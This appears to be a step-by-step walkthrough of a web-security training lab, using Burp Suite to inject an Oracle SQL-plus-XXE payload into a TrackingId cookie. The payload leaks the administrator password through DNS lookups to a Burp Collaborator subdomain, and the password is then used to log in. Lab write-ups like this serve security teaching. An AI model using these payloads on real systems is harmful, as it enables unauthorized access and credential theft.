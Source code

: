Step 1 : Intercept the request using BurpSuite Pro.

Step 2 : Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
  ```
  ' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
  ```
  
Step 3: Go to Burp Collaborator Client and copy the subdomain and paste it in payload. For eg:
   ```
   ' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.r3vye0nv6el7u6if1jv68khh78dz1o.burpcollaborator.net"> %remote;]>'),'/l') FROM dual-- 
   ```
   
Step 4: Copy and paste it after TrakingId Cookie, then URL encode it then send.

Step 5: Now go to Burp Collaborator, and press 'Poll now'  to confirm that a DNS lookup occurred.

Step 6: You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the administrator user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.

Step 7: Click "My account" to open the login page. Use the password to log in as the administrator user.
